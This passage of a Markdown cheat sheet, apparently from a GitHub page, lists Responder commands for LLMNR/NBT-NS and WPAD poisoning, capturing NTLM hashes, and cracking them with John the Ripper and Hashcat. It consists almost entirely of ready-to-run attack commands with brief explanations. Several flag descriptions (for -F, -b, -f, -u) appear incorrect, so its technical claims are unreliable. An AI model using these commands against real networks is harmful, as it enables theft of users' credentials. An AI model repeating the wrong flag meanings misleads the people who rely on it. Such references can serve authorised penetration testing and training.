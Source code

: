     responder -I <interface> -p
    ```

#### Poisoning Techniques

1. **Selective Poisoning with Specific Interface Binding**: Binds Responder to a specific interface, which is useful in complex environments with multiple network interfaces.
    ```bash
    responder -I <interface> -b <interface>
    ```
2. **Disabling Specific Protocols**: Disables WINS query poisoning, allowing you to focus on LLMNR and NBT-NS without interference.
    ```bash
    responder -I <interface> -d
    ```
3. **Forcing Basic HTTP Authentication Responses**: Forces Responder to respond with Basic HTTP authentication challenges, potentially capturing credentials sent in plaintext.
    ```bash
    responder -I <interface> -f
    ```
4. **Specifying Listening IP Address for SMB and HTTP**:Sets a specific IP address for Responder to use when responding to SMB and HTTP requests, useful for controlling the flow of captured credentials.
    ```bash
    responder -I <interface> -e <target_ip>
    ```
 5. **Using Custom User-Agent for Rogue WPAD**:Configures a custom User-Agent string for the rogue WPAD proxy server, which can help bypass certain filters or defenses.
    ```bash
    responder -I <interface> -u "CustomUserAgent"
    ```
 
#### Credential Harvesting and Hash Cracking

1. **Capturing NTLMv2 Hashes**: The default operation mode of Responder captures NTLMv2 hashes from poisoned queries.
    ```bash
    responder -I <interface>
    ```
2. **Downgrading to NTLMv1 and Capturing**: Forces NTLMv1 downgrade, capturing weaker NTLMv1 hashes that are easier to crack.
    ```bash
    responder -I <interface> -F
    ```
3. **Cracking NTLM Hashes with John the Ripper**: Uses John the Ripper to crack NTLMv2 hashes captured by Responder.
    ```bash
    john --format=NTLMv2 responder-Session.log
    ```
4. **Cracking NTLM Hashes with Hashcat**: Uses Hashcat to crack NTLMv2 hashes with a specified wordlist.
    ```bash
    hashcat -m 5600 responder-Session.log <wordlist>
    ```
5. **Monitoring and Logging Credential Harvesting**: Runs Responder in verbose mode with logging enabled, useful for monitoring and auditing captured credentials.
    ```bash
    responder -I <interface> -v -l /path/to/logfile.log
    ```

